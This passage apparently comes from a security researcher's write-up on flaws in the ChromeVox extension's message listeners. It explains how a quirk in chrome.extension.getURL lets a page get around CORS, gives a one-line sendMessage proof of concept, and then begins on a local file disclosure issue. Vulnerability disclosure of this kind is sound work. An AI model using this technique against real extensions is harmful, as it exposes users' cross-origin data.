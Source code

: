 ...

chrome.extension.onMessage.addListener(function(request, sender, callback) {
    if (request['srcFile']) {
        var srcFile = request['srcFile'];
        <span style="color:DodgerBlue">cvox.InjectedScriptLoader.fetchCode</span>([srcFile], function(code) {
            callback({
                'code': code[srcFile]
            });
        });
    }
    return true;
});
</pre></td></tr></tbody></table></code></div></div>

This code gets _srcFile_ which is a URL, and they convert this URL to a full URL using `chrome.extension.getURL`, and then use XHR to fetch the file and return content to the Content script.

All seems good so far, but there is a problem due to a weird bug in `chrome.extension.getURL`. Previously, if you provide a full URL to `chrome.extension.getURL`, it would return the URL as it is, which is different from `chrome.runtime.getURL`.

```
> chrome.runtime.getURL(“https://test.example”);
"chrome-extension://foo/https://test.example"
> chrome.extension.getURL(“https://test.example”);
"https://test.example"
```

By abusing this behavior, we can fetch any websites' content using above listener because Background script can bypass CORS.

```
chrome.extension.sendMessage({srcFile: 'https://www.google.com'}, content => {alert(content)});
```

### Local file disclosure
Investigating further, I found yet another suspicious message listener 😊

<div class="language-plaintext highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
2
3
4
5
6
7
8
9
10
</pre></td><td class="rouge-code"><pre>var target = msg['target'];
var action = msg['action'];
switch (target) {
...
  case 'OpenTab':
      var destination = {
              url: msg['url']
      };
      <span style="color:DodgerBlue">chrome.tabs.create(destination);</span>
      break;
</pre></td></tr></tbody></table></code></div></div>
